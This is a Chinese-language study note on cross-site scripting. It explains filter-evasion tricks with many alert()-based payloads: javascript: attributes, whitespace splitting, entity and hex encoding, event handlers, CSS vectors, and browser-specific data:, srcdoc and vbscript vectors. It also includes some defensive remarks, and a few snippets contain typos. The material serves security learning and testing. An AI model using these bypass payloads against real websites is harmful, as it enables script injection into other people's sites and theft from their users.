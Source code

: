 ```yaml
---
title: "XSS"
date: 2016-01-20 21:38
---
```


## xss cheat sheet

xss cheat sheet 即测试xss的测试样表

[XSS_Filter_Evasion_Cheat_Sheet][2]

[XSS Filter Evasion Cheat Sheet 中文版][3]

[HTML5 Security Cheatsheet][1]


```
<script>alert(1);</script>
<script>alert('xss');</script>
<iframe onload="alert(1)"></iframe>
```

## xss 过滤绕过

* <> 

```
<scirpt>alert(1);</script>
```

对 <> 或 < script > 进行过滤或转义，可以防御此类xss 

* HTML标签属性执行XSS

很多HTML标签属性支持 javascipt:[code] 伪协议的形式。这个协议类型声明了URL的主体是任意的JavaScript代码，由javascript的解释器运行

```
<table background="javascript:alert(/xss/)"></table>
<img src="javascript:alert('xss');">
```

> 并不是所有的浏览器都支持javascript伪协议

并不是所有的标记的属性都可以产生XSS，通常只有引用文件的属性才能触发XSS。

```
href=
lowsrc=
bgsound=
background=
value=
action=
dynsrc=
```

* 空格 换行 Tab

```
<img src="javas cript:alert(/xss/)" width=100>
```

> javas 和 cript是Tab

关键字拆分绕过过滤限制，使用Tab, 空格， 换行。原因分析如下：

javascript语句通常以分号结尾，如果一个语句是完整的，而这一行的结尾是换行符，就可以省略分号。如果同一行中有过个语句，则每个语句就必须使用分号来结束(最后一条语句可以不用分号)

```
var a = true
var b = "something";
```

除了在引号中分隔单词或强制结束语句外，额外的空白无论以何种方式添加都无所谓。

```
<img src="javas
cript:
alert(/xss/)">
```

换行处不是一个完整语句时，js会继续处理发现的内容，直到遇到一个分号或发现完整的语句为止

* 标签属性值转码

原理： HTML属性中，会自动对实体字符进行转义

编码绕过，HTML标记的属性值过滤，HTML **属性** 本身支持ASCII码形式, 转码支持十进制和十六进制。

可以在十进制（十六进制）字符后面加 **;** , 还可以在前面加 0 , 如

```
&#0
&#00
&#000
&#0000
```

```
<img src="a" onerror="aler&#116(/xss/)">
<img src=1 onerror="aler&#116;(/xss/)">
<img src="a" onerror="&#97&#108&#101&#114&#116&#40&#47&#120&#115&#115&#47&#41">
<img src="a" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#47;&#120;&#115;&#115;&#47;&#41;">
<img src="a" onerror="&#x61&#x6c&#x65&#x72&#x74&#x28&#x2f&#x78&#x73&#x73&#x2f&#x29">
<img src="a" onerror="&#000097&#000108&#000101&#000114&#000116&#000040&#000047&#000120&#000115&#000115&#000047&#000041">
<img src="a" onerror="&#97&#108&#101&#114&#116&#32&#40&#47&#120&#115&#115&#47&#41">
```

注：

```
Tab(&#9), 换行符(&#10), 空格(&#32)可以被插入到代码中任意地方。
```

**防御：**

```
&过滤为 &amp; 
```

* 产生自己的事件

当不能依靠属性进行跨站时，可以使用事件。js和HTML之间的交互是通过事件来实现的，事件就是用户或浏览器自身执行的某种动作，如click, load等，而响应事件的函数叫做事件处理函数（或事件侦听器）。

W3C将事件分为3个不同的类别：

```
用户接口(鼠标，键盘)
逻辑（处理的结果）
变化（对文档进行修改）
```

测试事件型xss:

```
onResume
onReverse
onRowDelete
onRowInserted
onSeek
onSynchRestored
onTimeError
onTrackChange
onURLFlip
onRepeat
onMediaComplete
onMediaError
onPause
onProgress
onOutOfSync
onlayoutcomplete
onafterprint
onbeforeprint
ondataavailable
ondatasetchanged
ondatasetcomplete
onerrorupdate
onrowenter
onrowexit
onrowsdelete
onrowsinserted
onselectionchange
onbounce
onfinish
onstop
onresizeend
```

* CSS 跨站剖析

xss另一个载体是CSS样式表，使用CSS样式表执行js具有隐蔽，灵活多变等特点，但其有个很大的缺点：各浏览器之间不能通用，甚者可能同一浏览器不同版本之间都不能通用

```
<div style="background-img:url(javascript:alert('xss'))">
<style>
    body {background-image: url{"javascript:alert('xss')"};}
</style>
```

* eval

```
<script>
eval("alert('xss')");
</script>

# eval 执行十六进制字符串形式
<script>
eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29");
</script>

# eval 执行10进制形式，需要 String.fromCharCode() 配合使用
```

## 常见绕过

```
# 大小写转换
<IMG sRc="a" onerror="alert(/xss/)">
# 单引号
<img src="a" onerror='alert(/xss/)'>
# 不用引号
<img src="a" onerror=alert(/xss/)>
# / 隔开
<img/src="a"/onerror="alert(/xss/)">
# /**/
<img/**/src="a"/**/onerror=alert(/xss/)>
```

## 浏览器特性

### chrome

* Chrome下data协议执行代码

```
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
```

* Chrome下srcdoc属性

```
<iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
```

### IE

* IE下vbscript执行代码

```
<iframe src="vbscript:msgbox(1)"></iframe> 
```

## flash

[swf反编译软件下载][4]

[ 乌云 Flash Xss入门--navigateToURL][5]
[ 乌云 Flash Xss进阶--ExternalInterface.call(1)][6]
[ 乌云 Flash Xss进阶--ExternalInterface.call(2)][7]
[ 乌云 Flash Xss进阶--addCallback][8]

[1]: http://html5sec.org/
[2]: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
[3]: http://drops.wooyun.org/tips/1955
[4]: https://www.free-decompiler.com/flash/download/
[5]: http://www.wooyun.org/bugs/wooyun-2010-016512
[6]: http://www.wooyun.org/bugs/wooyun-2010-016532
[7]: http://www.wooyun.org/bugs/wooyun-2010-016598
[8]: http://www.wooyun.org/bugs/wooyun-2010-016803
